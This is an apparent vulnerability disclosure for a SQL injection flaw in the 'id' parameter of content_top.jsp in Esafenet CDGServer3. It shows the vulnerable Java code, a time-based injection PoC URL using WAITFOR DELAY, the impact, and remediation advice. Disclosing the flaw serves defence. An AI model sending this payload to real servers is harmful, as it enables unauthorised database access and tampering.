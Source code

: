 # Vulnerability Report

![image-20250116134306835](./assets/image-20250116134306835.png)

## Vulnerability Description

The following code contains an SQL injection vulnerability in the `id` parameter. An attacker can exploit this vulnerability to execute arbitrary SQL queries in the database, potentially leading to data leakage, data tampering, or other malicious activities.

## Vulnerable Code

```java
String id = request.getParameter("id");
GateWayService gateWayService = com.esafenet.ta.util.SpringContextUtil.getBean(GateWayService.class);
NetWorkInfo netWorkInfo = gateWayService.getNetWorkInfoByid(id);
String accessModel = "0";
String msg = HttpUtils.doGet(netWorkInfo.getEgmurl() + "/getGwServiceStatus", null);
accessModel = netWorkInfo.getGateMode();
```

## Vulnerability Type

SQL Injection

## Proof of Concept (PoC)

An attacker can trigger the SQL injection through the following URL:

```
https://uri/CDGServer3/content_top.jsp?id=1';WAITFOR DELAY '0:0:10'--
```

## Impact

This vulnerability may lead to:

- Database information leakage
- Data tampering
- Denial of Service (DoS) attacks

## Recommendations

1. Use prepared statements or parameterized queries to avoid concatenating user input directly into SQL statements.
2. Implement strict validation and sanitization of user input.
3. Apply the principle of least privilege to restrict database user permissions.